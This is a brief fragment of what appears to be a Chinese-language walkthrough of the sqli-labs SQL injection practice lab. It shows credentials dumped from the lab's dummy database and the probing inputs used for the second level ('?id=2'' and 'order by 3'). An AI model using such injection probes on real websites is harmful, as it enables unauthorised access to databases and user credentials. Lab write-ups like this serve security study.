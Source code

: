![image-20220114234401609](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/image-20220114234401609.png)

得到：

```
Your Login name:Dumb,Angelina,Dummy,secure,stupid,superman,batman,admin,admin1,admin2,admin3,dhakkan,admin4

Your Password:Dumb,I-kill-you,p@ssword,crappy,stupidity,genious,mob!le,admin,admin1,admin2,admin3,dumbo,admin4
```




# less2

![image-20220115083605312](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/image-20220115083605312.png)



判断闭合方式：

```
?id=2'

?id=2 order by 3
```

